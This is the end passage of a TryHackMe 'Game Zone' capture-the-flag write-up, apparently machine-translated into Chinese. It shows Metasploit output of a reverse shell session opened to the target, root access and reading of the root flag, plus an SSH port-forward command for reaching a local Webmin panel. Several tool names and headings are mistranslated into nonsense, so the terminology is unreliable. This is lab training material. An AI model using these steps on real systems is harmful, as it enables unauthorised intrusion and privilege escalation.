 ```
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (<attackbox ip>:4446 -> <boot2root ip>:34436 ) at [redacted] -0400**id**
uid=0(root) gid=0(root) groups=0(root)
**cat /root/root.txt** [redacted]
```

阿洛拉。

# 结论

这是一个讨论面向公众的 web 应用程序的标准漏洞的房间。在我看来，最有趣的部分是打开一个到目标系统的反向隧道来访问本地 [Webmin (n.d.)](https://www.webmin.com/) 面板，以达到权限提升的目的。

## 外卖食品

*   正如在这个和其他 TryHackMe 房间所展示的那样，反向谷歌图片搜索配合敏锐的眼睛可以揭示关于图片的背景细节。
*   密码破解可能有点蹩脚，但不应该被忽视，因为它可能导致凭据填充。
*   可以创建反向 SSH 隧道来访问目标系统上的本地服务，如下所示:

```
**$ ssh -N -L [attacker port]:127.0.0.1:[target port] <user@target ip>**
```

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:【https://cash.app/$MiraLazine 

# 参考

j .克拉克(2012 年)。 *SQL 注入攻击与防御【第二版】*。Syngress。

哈希类型标识符(未标明)。2022 年 4 月 1 日检索自:[https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

开放式墙壁(未标明)。*开膛手约翰密码破解*。2022 年 4 月 1 日检索自:[https://www.openwall.com/john/](https://www.openwall.com/john/)

波特斯威格(未标明)。*打嗝套件社区版*。2022 年 4 月 2 日检索自:[https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)

沙阿，S. (2021)。 *SSH 隧道讲解*。心灵传输博客。2022 年 4 月 1 日检索自:[https://goteleport.com/blog/ssh-tunneling-explained/](https://goteleport.com/blog/ssh-tunneling-explained/)

sqlmap(未标明)。*自动 SQL 注入和数据库接管工具*。2022 年 4 月 1 日检索自:[https://sqlmap.org/](https://sqlmap.org/)

Tor 项目(未注明日期)。2022 年 4 月 2 日检索自:[https://www.torproject.org/](https://www.torproject.org/)

《tryhackme》(2019)。*游戏区*。2022 年 4 月 2 日检索自:[https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)

电视比喻(未注明)。*小女孩，大枪*。2022 年 4 月 2 日检索自:[https://tvtropes.org/pmwiki/pmwiki.php/Main/SmallGirlBigGun](https://tvtropes.org/pmwiki/pmwiki.php/Main/SmallGirlBigGun)

网名(未注明)。2022 年 4 月 1 日检索自:[https://www.webmin.com/](https://www.webmin.com/)